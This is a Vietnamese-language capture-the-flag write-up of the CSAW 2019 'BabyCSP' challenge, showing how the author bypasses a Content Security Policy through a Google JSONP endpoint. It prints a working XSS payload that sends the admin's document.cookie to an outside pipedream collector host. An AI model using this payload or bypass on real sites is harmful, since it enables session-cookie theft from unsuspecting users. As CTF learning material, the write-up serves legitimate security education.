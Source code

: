 # CSAW CTF Qualification Round 2019

----
## BabyCSP ([Link](http://web.chal.csaw.io:1000/))
    Mà có vẻ tính đến thời điểm này thì link đóng mất tiêu rồi ...
    
- Nói chung thì cũng là lần đầu giải CTF online, văn kém nên viết writeup cũng hơi lủng củng... 1 phần thì cũng là do may mắn khi google nên rất nhanh mình đã tìm được hướng đi cho bài này, phần còn lại thì cũng giải khá nhiều bài XSS nên phần sau của bài CSP này của mình cũng khá nhanh. Cảm giác rất dễ chịu cho bài CTF online đầu tiên. Qua đến bài Unagi thì... mù tịt hướng đi... Dù đã làm nhiều về upload file liên quan tới image rồi nhưng với xml thì chưa bao giờ làm. Sau 1 đoạn thời gian google không có kết quả khả quan thì mình quyết định đi học bài lđể mai thi... Kết thúc kỷ niệm về bài giải CTF online...

- Mở đầu đề bài 1 đoạn CSP sau:

> Sơ bộ 1 chút thì Content Security Policy (CSP) là chính sách bảo mật nội dung, được sử dụng để xác định các nguồn nội dung an toàn trên website mà trình duyệt có thể tải về cho người dùng. CSP là biện pháp đối phó rất hiệu quả với kiểu hack chèn mã độc Cross Site Scripting (XSS).

[csp](image/csp.png)

- Chú ý đến đoạn: `script-src 'self' *.google.com`
    - Hiểu đơn giản 1 chút thì đoạn csp trên chỉ định rõ nguồn sử dụng Javascript hợp lệ là `*google.com`
        - Để hiểu rõ hơn thì: [link](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src)
- Vấn đề là bây giờ kiếm đâu ra nguồn Javascript của google và gắn đoạn payload của mình vô để bypass qua csp của bài... Thôi google để xem có tìm thấy gì đó hữu ích không...
- Mình là con người đơn giản, đề cho cái gì thì ghi sạch lên google để tìm thử: `bypass csp xss script src google.com`
- Mò 1 hồi thì cũng tìm thấy thông tin hữu ích... [Link](https://appio.dev/vulns/google-csp-evaluator/)
    - Để ý đoạn này: `The first one is that *.google-analytics.com hosts JSONP endpoints, that would allow us to bypass the CSP.`
    - Cũng như `*.google.com`, ta có thể bypass qua csp bằng JSONP endpoints

- Rất may là trong link đó họ cho cả 1 whitelist JSONP luôn, đỡ mất công tìm
    - Phân vân 1 hồi thì mình chọn link sau để thêm payload vào: `https://accounts.google.com/o/oauth2/revoke?callback=`
    - Test luôn, không nói nhiều, nhồi 1 đoạn Javascript đơn giản `alert(1)` vô link rồi submit xem có gì xảy ra không

    `<script type="text/javascript" src="https://accounts.google.com/o/oauth2/revoke?callback=alert(1)"></script>`
    - Vì viết writeup hơi muộn nên web đóng mất tiêu rồi. Ảnh nào có thì up luôn, ảnh nào không có thì đi mượn ké vậy...

    [alert](image/alert.png)
   - Thành công mỹ mãn, giờ thì dễ rồi. Tạo 1 requestsbin ngay và luôn để hứng flag thôi chứ làm gì
   - đoạn payload để get cookie admin của mình: `location.replace('https://enzbo4rvhzz9n.x.pipedream.net/?key='%2bdocument.cookie)`

        - Giải thích 1 chút thì hàm `location.replace` sẽ ngay lập tức dẫn client đến URL format `location.replace(URL)`, ở đây kèm theo hàm `document.cookie` nữa để GET ra cookie của admin`

- Payload cuối cùng để mình submit lên đó là:
`<script type="text/javascript" src="https://accounts.google.com/o/oauth2/revoke?callback=location.replace('https://enzbo4rvhzz9n.x.pipedream.net/?key='%2bdocument.cookie)"></script>`

- Tuy nhiên là có vấn đề nho nhỏ ở đây, mới đầu ta submit payload lên thì nó đi thẳng tới requestsbin luôn, tức là nó gửi cookie của ta lên requestsbin luôn, lấy làm gì nhỉ, bộ flag trong source luôn chắc...

- Bây giờ ra submit đại 1 cái gì đó lên, rồi nhấn vô `report to admin`, và bây giờ ta được chuyển qua link `http://web.chal.csaw.io:1000/report?id=52279` trong 1 khoảng khắc. Giờ rõ rồi, mỗi submit sẽ tạo 1 post chứa id riêng và khi report lên admin thì chỉ cần thay id là được.
- Giờ đơn giản rồi, submit lại payload và lấy ra id của nó. Thay vô link report rồi report lên admin lại là xong. Bây giờ lên requestsbin lấy flag thôi

[flag](image/flag.png)
